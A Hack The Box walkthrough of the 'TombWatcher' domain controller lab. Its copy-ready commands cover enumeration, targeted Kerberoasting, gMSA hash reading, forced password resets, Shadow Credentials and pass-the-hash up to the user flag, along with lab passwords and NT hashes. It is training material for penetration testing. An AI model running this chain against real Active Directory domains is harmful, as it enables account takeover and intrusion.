# HTB - TombWatcher

**IP Address:** `10.129.62.79`  
**OS:** `Windows Server 2019 (Build 17763) — Domain Controller`  
**Difficulty:** `Medium`  
**Tags:** #ActiveDirectory #ADCS #BloodHound #gMSA #Kerberoasting #ESC15 #ESC3 #ShadowCredentials

---
## Synopsis

TombWatcher is a medium Active Directory Domain Controller. Starting from provided credentials for `henry`, BloodHound reveals a chained path: targeted Kerberoasting of `Alfred`, membership in `Infrastructure` to read the `ansible_dev$` gMSA password, force-changing `sam`, Shadow Credentials on `john`, and WinRM for the user flag. Privilege escalation restores a deleted `cert_admin` account from the ADCS OU, abuses ESC15 / CVE-2024-49019 on the `WebServer` template to obtain a Certificate Request Agent certificate, then ESC3 on-behalf-of `administrator`. Pass-the-Hash with the resulting Administrator NT hash yields the root flag. A scheduled task periodically re-deletes `cert_admin`, so restores must be repeated during exploitation.

---
## Skills Required

- Active Directory enumeration (LDAP, BloodHound / RustHound)
- Kerberos basics (Kerberoasting, clock skew)
- Familiarity with AD CS concepts and Certipy

## Skills Learned

- Targeted Kerberoasting via `WriteSPN` / bloodyAD
- Reading gMSA passwords after group membership abuse
- Shadow Credentials for hash recovery
- Restoring deleted AD objects and chaining ESC15 → ESC3 for Domain Admin

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.62.79
```



TTL `127` is consistent with Windows.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.62.79 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49695,49696,49698,49716,49728 10.129.62.79 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 80 | Microsoft IIS httpd 10.0 | Default IIS page |
| 88 / 464 | Kerberos | Domain authentication |
| 389 / 636 / 3268 / 3269 | LDAP / LDAPS / GC | `DC01.tombwatcher.htb` |
| 445 | SMB | Signing **required** |
| 5985 | WinRM | Remote management |
| 9389 | ADWS | AD Web Services |

Add names to `/etc/hosts`:

```bash
echo "10.129.62.79 tombwatcher.htb DC01.tombwatcher.htb DC01" | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 HTTP (IIS)

Browse the web root for an easy foothold; only the default IIS welcome page is present:

```text
http://tombwatcher.htb
```



### 2.2 Credential check (`henry`) and LDAP enum

Lab credentials for `henry` authenticate over LDAP but not WinRM; SMB share listing fails:

```bash
nxc smb 10.129.62.79 --shares
nxc ldap 10.129.62.79 -u henry -p 'H3nry_987TGV!'
nxc winrm 10.129.62.79 -u henry -p 'H3nry_987TGV!'
```



Export users and groups:

```bash
nxc ldap 10.129.62.79 -u henry -p 'H3nry_987TGV!' --users-export output.txt
nxc ldap 10.129.62.79 -u henry -p 'H3nry_987TGV!' --groups
```




AS-REP roasting with the user list returns no usable principals:

```bash
nxc ldap 10.129.62.79 -u users.txt -p '' --asreproast asreproast.txt
```



### 2.3 RustHound / BloodHound path

Collect AD data for graphing:

```bash
rusthound-ce -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```



BloodHound shows the attack path from `HENRY` to `ADCS`:

`WriteSPN` → `ALFRED` → `AddSelf` → `INFRASTRUCTURE` → `ReadGMSAPassword` → `ANSIBLE_DEV$` → `ForceChangePassword` → `SAM` → `WriteOwner` → `JOHN` → `GenericAll` → `ADCS`



---
## 3. Foothold

### 3.1 Clock sync and targeted Kerberoasting (`Alfred`)

Kerberos needs a sane clock; sync to the DC (~4h skew observed):

```bash
sudo ntpdate 10.129.62.79
```



Default Kerberoasting finds no SPNs. Use Henry’s `WriteSPN` on Alfred, then roast:

```bash
bloodyAD -u henry -p 'H3nry_987TGV!' --host 10.129.62.79 set object ALFRED servicePrincipalName -v 'http://pwned'
nxc ldap dc01.tombwatcher.htb -u henry -p 'H3nry_987TGV!' --kerberoasting -
```




Crack the TGS with rockyou:

```bash
hashcat alfred_hash.txt /usr/share/wordlists/rockyou.txt
```



Password recovered: `basketball`. Alfred still cannot WinRM:

```bash
nxc winrm 10.129.62.79 -u alfred -p basketball
```



### 3.2 gMSA → `sam` → Shadow Credentials on `john`

Add Alfred to `Infrastructure` and read the `ansible_dev$` gMSA NT hash:

```bash
bloodyAD --host 10.129.62.79 -u alfred -p basketball add groupMember infrastructure Alfred
nxc ldap dc01.tombwatcher.htb -u alfred -p basketball --gmsa
```



gMSA hash: `3eca34dd13a85db79c03178b7b149621`. Reset `sam`, confirm ownership of `john`, grant `GenericAll`, then Shadow Credentials:

```bash
bloodyAD --host 10.129.62.79 -u 'ansible_dev$' -p ':3eca34dd13a85db79c03178b7b149621' set password sam "H4ck3d"
bloodyAD --host 10.129.62.79 -u 'sam' -p 'H4ck3d' set owner john sam
bloodyAD --host 10.129.62.79 -u 'sam' -p 'H4ck3d' add genericAll john sam
certipy-ad shadow auto -u sam@tombwatcher.htb -p 'H4ck3d' -account john -dc-ip 10.129.62.79
```





NT hash for `john`: `ad9324754583e3e42b55aad4d3b8d2bf`. BloodHound confirms `Remote Management Users` membership:



### 3.3 WinRM as `john` — user flag

Pass-the-Hash over WinRM with john’s NT hash and grab the user flag:

```bash
evil-winrm -i 10.129.62.79 -u 'john' -H 'ad9324754583e3e42b55aad4d3b8d2bf'
```

```powershell
whoami
type ../Desktop/user.txt
whoami /all
```


